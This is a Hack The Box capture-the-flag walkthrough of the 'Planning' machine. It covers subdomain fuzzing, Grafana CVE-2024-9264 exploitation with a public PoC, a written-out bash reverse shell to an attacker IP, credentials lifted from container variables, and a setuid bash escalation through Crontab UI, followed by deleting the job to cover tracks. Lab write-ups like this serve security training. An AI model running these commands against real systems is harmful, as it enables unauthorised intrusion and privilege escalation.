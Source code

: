 # Planning - HTB writeup

a walkthrough of the 'Planning' HTB machine. start with the supplied admin creds, exploit Grafana’s CVE-2024-9264 (DuckDB SQL injection) to get RCE as root inside the Grafana container, grab Grafana’s admin creds and grant yourself elevated permissions!


## Introduction

* **Name:** Planning
* **IP:** 10.10.11.68
* **Platform:** HTB 
* **Challenge Type:** Boot2Root machine
* **Difficulty:** Easy

## Recon

i started with a rustscan scan:

```bash
rustscan -a 10.10.11.68 -- -sC -sV -oN nmap/full-tcp.nmap


PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the site redirects to `planning.htb`

so we'll add `planning.htb` to `/etc/hosts` 

`echo '10.10.11.68 planning.htb' | sudo tee -a /etc/hosts`

the box also came with an initial credentials:

```
admin:0D5oT70Fq13EvB5r
```

i noted it down


## Enumeration web & subdomains

i brute-forced subdomains with ffuf against the server (host header fuzzing) and found `grafana`:

```bash
ffuf -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /opt/seclists/Discovery/DNS/subdomains-top1million-110000.txt -ac
[ SNIP ]
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 98ms]
```

added to `/etc/hosts`:

```
10.10.11.68 planning.htb grafana.planning.htb
```

`planning.htb` is a PHP site (nothing juicy in enroll/contact at first glance). `grafana.planning.htb` shows a Grafana login page. i tried the provided creds there and they worked!! (admin:0D5oT70Fq13EvB5r).

grafana footer shows version **11.0.0**, did some research on the version and its vulnerable to CVE-2024-9264


## Foothold Grafana RCE (CVE-2024-9264)

grafana v11 + DuckDB shellfs extension → possible post-auth SQL/command injection (CVE-2024-9264). there’s a public PoC (nollium). i cloned and ran it:

```bash
git clone https://github.com/nollium/CVE-2024-9264
cd CVE-2024-9264
uv run CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c id http://grafana.planning.htb
# output shows: uid=0(root) gid=0(root) groups=0(root)
```

it works, grafana container runs as root and the exploit executes commands via duckdb/shellfs (command writes to /tmp file, then reads it back).

i swapped in a reverse shell command and listened with `nc`. got a root shell inside the **Grafana container**:

```bash
# on attacker
nc -lnvp 443

# exploit
uv run CVE-2024-9264.py -u admin -p '0D5oT70Fq13EvB5r' -c 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' http://grafana.planning.htb
# connection -> root@<container-id>
```

upgraded the shell and poked around.



## Pivot: creds in container → ssh to host

inside the container environment variables, i found Grafana admin creds:

```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

those creds worked to SSH to the **host** (planning.htb):

```bash
ssh enzo@planning.htb
# -> shell on host (Ubuntu 24.04)
cat /home/enzo/user.txt
# -> user flag (collected)
```

so user done

## Host enum find escalation path

on the host i checked `/opt` and found `/opt/crontabs/crontab.db` newline-delimited JSON describing scheduled jobs. content included two jobs:

i downloaded it on my machine and here's what i found: 

* **Grafana backup** (daily): runs `/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz`

  * i noticed the zip password: `P4ssw0rdS0pRi0T3c`
* **Cleanup**: `/root/scripts/cleanup.sh` running every minute

checked `netstat`/`ss` found ports listening on localhost:

* 127.0.0.1:3000 (grafana)
* 127.0.0.1:8000 (HTTP, requires Basic auth)
* 127.0.0.1:43351 (responds 404)
* plus db ports (3306...)

`localhost:8000` returned `401` with `WWW-Authenticate: Basic realm="Restricted Area"` looked like a Crontab UI running on 8000 bound to localhost.



## Crontab UI → root

i couldn’t hit 8000 directly from my machine, so i tunneled it over SSH:

```bash
ssh -L 9001:localhost:8000 enzo@planning.htb
# then browse http://localhost:9001
```

Basic auth accepted `root` + `P4ssw0rdS0pRi0T3c` that was the backup zip password from `crontab.db`. login granted access to **Crontab UI** (runs as root).

Crontab UI lets you create jobs so i created a job that copies `/bin/bash` to `/tmp/0xdf` and makes it setuid+setgid:

```
cp /bin/bash /tmp/b && chmod +sx /tmp/b
```

i hit **Run now** in the UI, then deleted the cron to cover tracks. checked:

```bash
ls -l /tmp/b
# -> -rwsrwsrwx 1 root root ...
```

run it preserving privileges:

```bash
/tmp/b -p
# -> root shell
cat /root/root.txt
# -> root flag (collected)
```

anyways i hoped my writeup helped you in some way, check my other writeups if you want but other then that cya
